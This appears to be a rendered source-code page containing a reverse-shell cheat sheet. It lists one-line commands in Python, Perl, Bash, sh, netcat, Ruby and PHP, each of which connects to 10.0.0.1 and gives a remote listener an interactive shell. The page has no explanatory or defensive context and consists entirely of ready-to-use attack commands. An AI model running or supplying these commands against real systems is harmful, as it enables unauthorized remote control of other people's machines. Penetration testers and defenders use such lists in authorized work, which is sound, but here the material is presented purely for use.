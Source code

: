 // Python2 Usage:
```
/usr/bin/python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PERL
```
/usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# BASH
```
/usr/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
// Using SH
```
/usr/bin/sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# NETCAT
```
/usr/bin/nc -e /bin/sh 10.0.0.1 1234
```
```
// If wrong installed NC
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

# RUBY
```
/usr/bin/ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


# USING /bin/

# PHP
```
/bin/php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# PYTHON
// Python3 Usage:
```
/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
